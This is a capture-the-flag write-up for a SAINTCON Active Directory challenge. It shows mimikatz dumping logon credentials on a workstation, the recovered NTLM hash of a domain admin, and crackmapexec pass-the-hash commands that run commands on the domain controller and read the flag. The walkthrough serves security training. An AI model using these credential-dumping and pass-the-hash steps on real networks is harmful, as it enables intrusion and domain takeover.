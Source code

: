 # DC

## Challenge Description

This Category of Challenge is presented by The Keep Community at SAINTCON.

Have you ever wanted to come to a conference, hack a machine, and walk away feeling like you own the world? Yeah, you can do that here.

If you get stuck or have any questions, don't hesitate to visit The Keep Community for help or guidance!

========================================

Please Visit the HACKERS CHALLENGE BOOTH to spinup an environment for you!

This environment will be good for 3 hours.

(due to monetary costs, we won't keep it running longer, but can spin you up a new environement when you need it)

========================================

Welcome to the Keep!

The you have been tasked with running a pentest on this client's network.

They have placed a file flag.txt on the desktop of all the important users in the network. This will allow them to see how far you have gone.

## Solution

Last we were on the admin account of **WS02**. We have developed some techniques
to get into these machines. Let's start from the top and try it again here. 

Let's put `mimikatz` on **WS02** and see what happens:

```cmd
$ mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
...
...
Authentication Id : 0 ; 327706 (00000000:0005001a)
Session           : RemoteInteractive from 3
User Name         : zonifer
Domain            : HC
Logon Server      : DC
Logon Time        : 10/27/2023 4:47:59 AM
SID               : S-1-5-21-636138077-4214483599-707087073-1114
        msv :
         [00000003] Primary
         * Username : zonifer
         * Domain   : HC
         * NTLM     : 30495291d31d1aaa33739e374f48ee21
         * SHA1     : 6097e27d82087fdf2f8a8d399a9cbc6cdbd27125
         * DPAPI    : cc5fc7bc2f4f0e4a781cc305758ffeb4
        tspkg :
        wdigest :
         * Username : zonifer
         * Domain   : HC
         * Password : (null)
        kerberos :
         * Username : zonifer
         * Domain   : HC.LOCAL
         * Password : (null)
        ssp :
        credman :
...
...
```

Oh _zonifer_, I remember you from the user enumeration in the first challenge. I
knew we were going to be friends someday:

```json
...
...
 "cn": [
        "Domain Admins"
    ],
    "description": [
        "Designated administrators of the domain"
    ],
    "distinguishedName": [
        "CN=Domain Admins,CN=Users,DC=hc,DC=local"
    ],
    "member": [
        "CN=zonifer,CN=Users,DC=hc,DC=local",
        "CN=Administrator,CN=Users,DC=hc,DC=local"
    ],
    ...
    ...
...
...
```

I also like that zonifer is a domain admin... 

Let's go back to our `crackmapexec` tool that worked last time:

```bash
crackmapexec smb DC/32 -u zonifer -d HC -H 30495291d31d1aaa33739e374f48ee21 -x dir
```

And success!

Now we can read the flag:

```bash
crackmapexec smb DC/32 -u zonifer -d HC -H 30495291d31d1aaa33739e374f48ee21 -x type C:\\Users\\zonifer\\Desktop\\flag.txt
```


